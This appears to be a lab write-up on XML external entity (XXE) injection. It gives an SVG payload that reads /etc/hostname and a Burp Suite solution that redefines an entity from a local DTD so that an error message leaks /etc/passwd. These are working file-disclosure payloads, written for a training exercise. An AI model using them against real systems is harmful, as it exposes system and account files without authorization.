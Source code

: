 Payload:

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```


## Exploiting XXE to retrieve data by repurposing a local DTD

### Enunciation

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.
#### Hint

Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`


### Solution

![xxe](../img/xxe_20.png)


```
# Burpsuite solution

1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following parameter entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE message [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>` This will import the Yelp DTD, then redefine the `ISOamso` entity, triggering an error message containing the contents of the `/etc/passwd` file.
```
